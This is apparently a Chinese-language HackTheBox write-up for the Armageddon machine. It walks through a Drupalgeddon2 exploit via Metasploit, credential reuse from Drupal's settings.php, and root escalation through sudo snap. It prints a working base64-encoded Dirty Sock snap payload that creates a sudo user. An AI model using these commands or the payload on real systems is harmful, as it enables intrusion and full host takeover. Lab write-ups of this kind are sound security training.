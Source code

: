 # HackTheBox Armageddon

  
  
&lt;!--more--&gt;  
```bash  
sudo nmap --min-rate 100000 -A -sS   
  
Host is up (0.18s latency).  
Not shown: 998 closed tcp ports (reset)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)  
| ssh-hostkey:   
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)  
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)  
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)  
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)  
|_http-title: Welcome to  Armageddon |  Armageddon  
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16  
| http-robots.txt: 36 disallowed entries (15 shown)  
| /includes/ /misc/ /modules/ /profiles/ /scripts/   
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt   
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt   
|_/LICENSE.txt /MAINTAINERS.txt  
|_http-generator: Drupal 7 (http://drupal.org)  
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).  
TCP/IP fingerprint:  
OS:SCAN(V=7.94%E=4%D=4/15%OT=22%CT=1%CU=37686%PV=Y%DS=2%DC=T%G=Y%TM=661CA4C  
OS:3%P=x86_64-apple-darwin21.6.0)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=I%TS=A)SE  
OS:Q(SP=108%GCD=1%ISR=10B%TI=Z%II=I%TS=A)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=I  
OS:%II=I%TS=A)OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11  
OS:NW7%O5=M53AST11NW7%O6=M53AST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=71  
OS:20%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=4  
OS:0%S=O%A=S&#43;%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O  
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S&#43;%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40  
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S&#43;%F=AR%O=%RD=0%Q  
OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y  
OS:%DFI=N%T=40%CD=S)  
  
Network Distance: 2 hops  
  
TRACEROUTE (using port 1723/tcp)  
HOP RTT       ADDRESS  
1   132.89 ms 10.10.16.1  
2   214.85 ms 10.129.48.89  
  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 29.92 seconds  
```  
存在`22`端口和`80`端口  
`80`端口存在`Web`服务，并且存在很多文件  
其中`/CHANGELOG.txt`存在版本信息  
`Drupal 7.56, 2017-06-21`  
利用`msf`搜索一下  
利用`exploit/unix/webapp/drupal_drupalgeddon2`这个漏洞  
成功获得一个`shell`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151210549.png)
但是权限很低  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151213101.png)
无法打开任何`flag`  
目标还开放了一个`22`端口，这里考虑密码复用，连接22端口  
通过`/etc/passwd`得知存在`brucetherealadmin`用户，在配置文件和数据库中找一下  
在`sites/default/settings.php`中存在数据库账号和密码  
```php  
$databases = array (  
  &#39;default&#39; =&gt;   
  array (  
    &#39;default&#39; =&gt;   
    array (  
      &#39;database&#39; =&gt; &#39;drupal&#39;,  
      &#39;username&#39; =&gt; &#39;drupaluser&#39;,  
      &#39;password&#39; =&gt; &#39;CQHEy@9M*m23gBVj&#39;,  
      &#39;host&#39; =&gt; &#39;localhost&#39;,  
      &#39;port&#39; =&gt; &#39;&#39;,  
      &#39;driver&#39; =&gt; &#39;mysql&#39;,  
      &#39;prefix&#39; =&gt; &#39;&#39;,  
    ),  
  ),  
);  
```  
在数据库中找到疑似`SSH`的密码  
```  
mysql -h localhost -u &#34;drupaluser&#34; -pCQHEy@9M*m23gBVj &#34;drupal&#34; -e &#34;select uid,name,pass from users;&#34;  
  
brucetherealadmin $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151440330.png)
利用`cmd5`查出`hash`值，成功登陆  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151441248.png)
`sudo -l`查看详细权限  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202404151442888.png)
可以用root权限运行`snap`命令  
参考文章  
https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html  
生成命令  
```bash  
python2 -c &#39;print&#34;aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAAAAAAsAIAAAAAAAA&#43;AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA&#43;PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5&#43;qumvhFkbY5Pr4ba1mk4&#43;lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc&#43;MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw&#34;&#43; &#34;A&#34;*4256 &#43; &#34;==&#34;&#39; | base64 -d &gt; exploit.snap  
```  
运行`sudo /usr/bin/snap install --devmode exploit.snap`  
切换到`dirty_sock`用户，密码同样是`dirty_sock`  
`sudo cat /root/root.txt`  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/hackthebox-armageddon/  

